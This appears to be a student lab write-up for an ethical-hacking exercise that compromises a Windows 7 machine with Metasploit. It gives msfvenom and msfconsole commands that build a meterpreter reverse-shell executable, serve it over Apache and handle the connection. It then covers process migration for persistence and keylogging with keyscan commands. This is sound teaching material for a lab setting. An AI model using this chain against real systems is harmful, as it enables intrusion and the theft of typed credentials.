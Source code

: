 Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_23_38](https://github.com/MaheshS03/EH-Ex-06/assets/128498431/22a3e591-70ee-4418-87f5-db1414c91388)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_25_11](https://github.com/MaheshS03/EH-EX-6/assets/127846109/2f7d21e8-ac0b-4529-b7b3-a45679f82ba3)

copy the fun.exe into the apache /var/www/html folder


Start apache server

sudo systemctl apache2 start

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_27_19](https://github.com/MaheshS03/EH-EX-6/assets/127846109/33b8fa8c-e0fe-4284-8005-035ad5941078)

Check the status of apache2

Invoke msfconsole:

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_29_04](https://github.com/MaheshS03/EH-EX-6/assets/127846109/eb634194-da71-401f-b3c4-3b7608784aaf)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_31_33](https://github.com/MaheshS03/EH-EX-6/assets/127846109/e90489e5-9bcb-4f59-b2d7-a9f5cf05bef6)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads. 

Bypass any warning boxes, double-click the file, and allow it to run.

![VirtualBox_Windows 7_27_04_2024_14_35_20](https://github.com/MaheshS03/EH-EX-6/assets/127846109/e254c516-d158-474c-be36-929702a9f334)

On kali give the command exploit

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_31_33](https://github.com/MaheshS03/EH-EX-6/assets/127846109/60ce3e07-c61d-43a0-a87e-824ef27994d0)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps  ⇒ can see the fun.exe process running with pid 1156

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_35_53](https://github.com/MaheshS03/EH-EX-6/assets/127846109/19707a1d-9ab5-4cb3-a0a5-bb77997db1b2)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.

To become more persistent, we'll migrate to a process that will last longer.

Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_37_07](https://github.com/MaheshS03/EH-EX-6/assets/127846109/22cd7317-cb46-4df4-94b0-62ba262b3c26)

Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_37_53](https://github.com/MaheshS03/EH-EX-6/assets/127846109/c2356dfb-4329-4f6b-b35c-45b526e5e643)

keyscan_dump	Shows the keystrokes captured so far

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_41_09](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/6a746190-c48c-49ea-8e44-a1391edca22b)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
